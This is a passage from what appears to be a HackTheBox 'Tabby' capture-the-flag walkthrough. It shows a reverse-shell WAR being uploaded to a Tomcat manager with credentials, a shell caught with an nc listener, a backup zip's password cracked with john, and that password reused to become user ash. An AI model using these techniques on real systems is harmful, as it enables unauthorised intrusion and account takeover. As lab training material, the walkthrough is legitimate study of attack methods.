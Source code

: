 ```
[root@kali Tabby ]$ curl --upload-file revshell.war -u 'tomcat:$3cureP4s5w0rd123!' "http://10.10.10.194:8080/manager/text/deploy?path=/shell2"                                                                                               
OK - Deployed application at context path [/shell2]
```
Now we can set up a listener, and as we hit port 9001 we can gain a shell as user tomcat.  
```
root@kali:~/Documents/HTB/Boxes/Tabby# nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.194] 48468
tomcat@tabby:~$ id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
```

## User
Now that we have an initial foothold, following our standard approach, we can run linPEAS looking for possible privilege escalation vectors.    
After we run linPEAS, we can notice a backup file that is pretty non-standard:  
```
╔══════════╣ Backup files (limited 100)
-rw-r--r-- 1 ash ash 8716 Jun 16  2020 /var/www/html/files/16162020_backup.zip
[... SNIP ...]
```
Now, let's download the archive and see what do we have.  
As we try to open the archive, we can see that it is password-protected, so, let's try to use john to crack the password:  
```
[root@kali Tabby ]$ zip2john backup.zip > backup.hash   
[root@kali Tabby ]$ cat backup.hash                        
backup.zip:$pkzip$5*1*1*0*8*24*7db5*dd84cfff4c26e855919708e34b3a32adc4d5c1a0f2a24b1e59be93f3641b254fde4da84c*1*0*8*24*6a8b*32010e3d24c744ea56561bbf91c0d4e22f9a300fcf01562f6fcf5c986924e5a6f6138334*1*0*0*24*5d46*ccf7b799809a3d3c12abb83063af3c6dd538521379c8d744cd195945926884341a9c4f74*1*0*8*24*5935*f422c178c96c8537b1297ae19ab6b91f497252d0a4efe86b3264ee48b099ed6dd54811ff*2*0*72*7b*5c67f19e*1b1f*4f*8*72*5a7a*ca5fafc4738500a9b5a41c17d7ee193634e3f8e483b6795e898581d0fe5198d16fe5332ea7d4a299e95ebfff6b9f955427563773b68eaee312d2bb841eecd6b9cc70a7597226c7a8724b0fcd43e4d0183f0ad47c14bf0268c1113ff57e11fc2e74d72a8d30f3590adc3393dddac6dcb11bfd*$/pkzip$::backup.zip:var/www/html/news.php, var/www/html/favicon.ico, var/www/html/Readme.txt, var/www/html/logo.png, var/www/html/index.php:backup.zip                                          
[root@kali Tabby ]$ john --wordlist=/usr/share/wordlists/rockyou.txt backup.hash                                      
Using default input encoding: UTF-8                        
Loaded 1 password hash (PKZIP [32/64])                     
Will run 2 OpenMP threads                                  
Press 'q' or Ctrl-C to abort, almost any other key for status                                                         
admin@it         (backup.zip)                              
1g 0:00:00:01 DONE (2022-04-22 10:16) 0.8264g/s 8560Kp/s 8560Kc/s 8560KC/s adornadis..adj071007                       
Use the "--show" option to display all of the cracked passwords reliably                                              
Session completed.
```
And we found a password.  
If we extract the zip file we do not see anything interesting, so we can try to use the cracked password against 'ash' the only user available in this box:  
```
tomcat@tabby:/home$ ls
ash
tomcat@tabby:/home$ su - ash
Password:
ash@tabby:~/
```
And we successfully gain access.
